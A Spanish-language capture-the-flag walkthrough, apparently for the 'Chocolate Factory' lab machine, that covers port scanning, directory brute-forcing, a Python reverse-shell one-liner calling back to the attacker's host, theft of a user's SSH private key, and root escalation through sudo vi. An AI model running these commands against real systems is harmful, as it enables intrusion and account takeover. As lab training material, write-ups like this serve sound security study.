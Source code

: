 ```yaml
---
description: // Tutorial //
---
```


# Chocolate Factory

Identificamos los puertos abiertos de la maquina victima

```
nmap IP -Pn -p- -v -n --min-rate 3000
```

<div align="left">

<figure><img src="../../../.gitbook/assets/image (27).png" alt="" width="332"><figcaption></figcaption></figure>

</div>

Hacemos una fuerza bruta de los directorios y ficheros del dominio y nos encontramos con un login index.html y una pagina para donde hay un input para ejecutar comandos home.php, vamos a ir a esta ultima:&#x20;

```
gobuster dir -u http://IP:80/ -w DICTIONARY -x .php,.txt,.html
```

<div align="left">

<figure><img src="../../../.gitbook/assets/image (26).png" alt="" width="563"><figcaption></figcaption></figure>

</div>

Subimos comando para una revershell con python y nos ponemos en escucha por el puerto configurado en nuestra maquina atacante&#x20;

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP-MAQUINA",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```
nc -lvp 4444
```

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

A continuacion, abrimos una shell interactiva

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z
stty raw -echo; fg
export TERM=xterm
```

Dentro de la carpeta /var/www/html llama la atencion el fichero key\_rev\_key, si filtramos por string el fichero podemos observar la primea key

<div align="left">

<figure><img src="../../../.gitbook/assets/image (29).png" alt="" width="313"><figcaption></figcaption></figure>

</div>

Navegando por los directorios nos encontramos con un fichero donde se encuntra la clave publica y privada de ssh del usuario charlie&#x20;

```
cat /home/charlie/teleport
cat /home/charlie/teleport.pub
```

Ahora que tenemos el usuario y la clave privada accedemos a traves de ssh al usuario charlie&#x20;

```
chmod 600 id_rsa 
ssh -i id_rsa charlie@IP_victima
```

Accedemos a la flag de usuario

<div align="left">

<figure><img src="../../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

</div>

Podemos ver la password de charlie en el fichero validate.php

<div align="left">

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

</div>

### Escalada de privilegios

```
Sudo -l
```

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Buscamos informacion en GTFO sobre la escalad de privilegios con vi

```
sudo vi -c ':!/bin/sh' /dev/null
```

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Introducimos la flag que nos encontramos en el script de pyhton para sacar la flag de root

<div align="left">

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt="" width="459"><figcaption></figcaption></figure>

</div>
